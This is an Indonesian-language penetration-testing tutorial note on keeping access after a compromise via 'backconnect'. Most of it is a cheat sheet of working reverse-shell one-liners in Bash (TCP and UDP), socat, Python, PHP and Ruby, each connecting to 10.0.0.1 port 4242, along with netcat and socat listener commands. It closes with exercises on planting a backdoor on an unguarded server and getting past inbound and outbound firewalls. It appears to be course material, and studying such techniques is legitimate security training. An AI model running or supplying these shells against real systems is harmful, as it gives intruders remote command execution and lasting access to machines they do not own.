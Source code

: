 # Alternatif Reverse dan Bind Shell

Created: June 22, 2022 1:17 PM

Setelah melakukan fase hacking, agar bisa mempertahankan koneksi kita bisa membuat backconnect. Salah satu tool yang sering digunakan adalah netcat. Ada 2 jenis backconnect yaitu Reverse Shell dan Bind Shell.

# **Reverse Shell**

[https://lh3.googleusercontent.com/hNNDJiKGFNlmfDBoT2SkcDAMLRP31TYlttDb7RLDl7CcQyDL0vBQizwWb_PnNpjRgY-BBQn_W-gM5oWfvh0wiQfZI8HRf3xVW60yuiPcMuGW5kCN1hC5byxlZmds2GQur6ckZHMWxwjdiUKvkg](https://lh3.googleusercontent.com/hNNDJiKGFNlmfDBoT2SkcDAMLRP31TYlttDb7RLDl7CcQyDL0vBQizwWb_PnNpjRgY-BBQn_W-gM5oWfvh0wiQfZI8HRf3xVW60yuiPcMuGW5kCN1hC5byxlZmds2GQur6ckZHMWxwjdiUKvkg)

Berikut beberapa perintah yang dapat kita jalankan untuk mengaktifkan reverse shell.

**Bash TCP**

```bash
$ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1$ 0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

**Bash UDP**

```bash
Victim:$ sh -i >& /dev/udp/10.0.0.1/4242 0>&1Listener:$ nc -u -lvp 4242
```

**Socat TCP**

```bash
Listener:user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242Victim:user@victim$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

**Python TCP**

```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

**PHP TCP**

```bash
$ php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
```

**Ruby TCP**

```bash
$ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

# **Exercises**

1. Suatu ketika kalian sedang melakukan penetration test secara internal perusahaan. Kalian melihat ada komputer server di ruang A dan tidak ada penjagaan. Beruntungnya komputer tersebut memiliki password yang lemah sehingga kalian bisa melewati proses login desktop. Setelah kalian periksa komputer tersebut terhubung ke jaringan internet dan LAN. Sayangnya komputer tersebut hanya memiliki IP Private. Jadi backdoor jenis apakah yang relevan dengan kondisi ini ? Jelaskan alasan kalian.
2. Terdapat sebuah komputer target yang memiliki infrastruktur yang lumayan ketat dimana terdapat firewall inbound dan firewall outbound. Firewall inbound melakukan block pada semua port sehingga orang lain tidak bisa mengakses komputer tersebut secara remote dari jaringan. Firewall outbound hanya mengizinkan komputer target untuk mengakses port 3306, 443, dan 22. Pada kasus ini bagaimana kalian merencanakan pemasangan backdoor agar bisa berjalan dengan baik ?